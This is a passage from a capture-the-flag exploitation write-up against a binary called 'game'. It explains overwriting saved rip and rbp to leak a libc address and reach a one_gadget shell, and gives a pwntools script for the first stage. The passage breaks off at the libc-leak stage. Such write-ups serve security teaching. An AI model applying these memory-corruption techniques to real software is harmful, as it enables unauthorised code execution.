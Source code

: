 So if we just make it executes that printf command and then it leaves, it jump to function puts or printf again and we can leak that address out, after that we can try to jump back to main again to see if it works (and luckily, it worked). So the idea is to overwrite the saved rip of lang_interpreter() into the last printf of play_game(), change saved rip of run() into the execution of puts in play_game() or in read_motd() (option 2) to leak libc address and overwrite the saved rbp to make it point to another place and when the program leaves and returns after leaking, it will jump to main again.

With the libc address in hand, we can input the address of one_gadget at wherever we want and write a writable address to saved rbp to make one_gadget pass all constraint.

Summary:
- Stage 1: Enable option 3
- Stage 2: Leak libc address
- Stage 3: Get shell

# 3. Exploit

### Stage 1: Enable option 3

We will use the script at my EzMisc writeup:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./game")
libc = ELF('./libc.so.6')
p = process(exe.path)
# p = remote("20.121.188.64", 31337)

p.sendlineafter(b'choice: ', b'1')
p.sendafter(b'string: ', b'\x01'*0x100)
p.sendafter(b'number: ', str(0x80000000).encode() + b'\n')
p.sendafter(b'number: ', str(0xffffffff).encode() + b'\n')
```

### Stage 2: Leak libc address

Let's check the stack again when we input source code:
